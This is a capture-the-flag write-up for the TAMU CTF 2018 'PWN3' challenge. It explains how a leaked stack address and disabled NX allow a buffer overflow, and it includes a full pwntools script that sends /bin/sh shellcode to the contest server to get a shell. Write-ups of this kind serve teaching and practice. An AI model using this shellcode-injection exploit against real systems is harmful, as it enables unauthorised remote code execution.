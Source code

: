 ```yaml
---
author: zangobot
ctf: TAMU CTF 2018
challenge: PWN3
categories: [pwn]
tags: [ ctf, springchicken, challenge ]
layout: writeup
---
```

pwn3 is the natural evolution of [pwn2](/pwn/2018/02/25/pwn2.html):

```
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffc9967a!
Now what should I echo? springchicken_is_ok
springchicken_is_ok
```
Again, no canary and for the first time, NX disabled (this is nice).

BUT ASLR is enabled!
There is no `print_flag` function... man this is though.

Or maybe not? NX is disabled, so I can put a shellcraft into the stack and execute it.

But how can I reference it? Just look at the output of radare2.

The address printed at the beginning is the address of the input string.

**BINGO.**


```python
from pwn import *

OFFSET = 242 #found using ragg2

rem = remote('pwn.ctf.tamu.edu', 4323)

#read useless line
for i in range(0,5):
    rem.recvline()

#this is the address line
to_grep = rem.recvline()

#this is the address
address = '0x'+to_grep[::-1][2:10][::-1]
address = p32(int(address,16))

#voilà
shellcode = asm(shellcraft.i386.sh())
exploit = shellcode + 'A'*(OFFSET - len(shellcode)) + address

rem.sendline(exploit)
rem.interactive()


```

Flag captured <.<
